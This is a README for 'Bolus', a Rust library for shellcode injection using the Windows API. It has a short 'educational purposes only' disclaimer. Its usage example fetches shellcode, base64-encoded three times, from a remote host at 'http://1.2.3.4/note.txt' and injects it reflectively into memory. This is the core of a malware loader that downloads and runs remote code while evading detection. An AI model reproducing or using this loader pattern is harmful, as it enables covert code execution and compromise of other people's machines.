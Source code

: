 # Bolus

Library for shellcode injection using the Windows API.

**WARNING: This code is for educational purposes only. The creator strongly urges you to only use this code in authorized contexts. Don't do crimes.**

## Usage


The following is an example implementation, which can be observed in [RustyNeedle](https://github.com/RustyNeedle):

```rust
use bolus::{
    inject,
    load,
    injectors::{
        InjectionType,
        InjectorType
    }
};

/// The URL where shellcode will be downloaded from
const URL: &str = "http://1.2.3.4/note.txt";
/// The # of base64 iterations to decode
const B64_ITERATIONS: usize = 3;

fn main() -> Result<(), String> {
    let injector = load(
        InjectorType::Base64Url((
            URL.to_string(),
            B64_ITERATIONS
        ))
    )?;
    inject(
        injector,
        InjectionType::Reflect,
        true
    )
}
```

## Documentation

Full docs at [docs.rs](https://docs.rs/bolus/0.1.1/bolus/)
